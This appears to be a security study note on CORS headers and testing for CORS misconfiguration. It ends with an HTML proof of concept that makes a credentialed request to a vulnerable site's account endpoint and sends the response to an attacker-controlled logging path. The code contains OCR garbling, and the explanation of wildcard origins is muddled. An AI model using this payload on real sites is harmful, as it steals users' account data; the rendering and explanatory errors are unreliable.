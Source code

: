## cors

It instructs the browser which resource to access from other websites
These headers start with ```Access Control``` for example, 

Basically adds flexibility to the same origin policy.

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: https://a.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:
cache-control, content-language, expires, last-modified, content-range, content-length, accept-ranges
Cache-Control: no-cache
Content-Туре: application/json
Vary: Accept-Encoding
Connection: close
Content-Length: 15
{"status": "ok"}

```

- Access-Control-Allow-Origin : describes which origin can access the response, if the header is set to **wildcard** then the it can access resources from any origin
- Access-Control-Allow-Credentials : indicates if request can contain credentials,if this is set to true any request sent will include the cookies and by default this header is set to false.
- Access-Control-Expose-Headers : allowing certain headers.


If origin header is said to wildcard then credentials cannot be false for security reasons


Blackbox Testing of this misconfiguration:

* Map the application 
* Test the application for dynamic generation
    - Does it refelct ACAO headers or not.(changing the values of the headers of the website)
    - some use regex to validate the string.
    - Does it allow null origin
    - Does it restrict the protocol
    - Does it allow passing the credentials
* once cors is found determine the impact of it.

White box

* Determine the frameworks used.
* find out if that stack allows for cors configuration 
* review code to identify any misconfiguration in cors rules


Exploitation 

* If the application allows for credentials.
    - This it the poc used
``` <html> ‹body›
        <h1›Hello World!‹/h1>
        <scripts>
        var xhr = new XMLHttpRequest () ;
        var url = "<https://vulnerable-site.com>"
        xhr.onreadystatechange = function() {
             if (xhr.readyState == XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open ('GET', url + "/accountDetails", true);
        xhr.withCredentials = true;
        xhr.send (null);
        ‹/script> </bodv>

     </html>
```

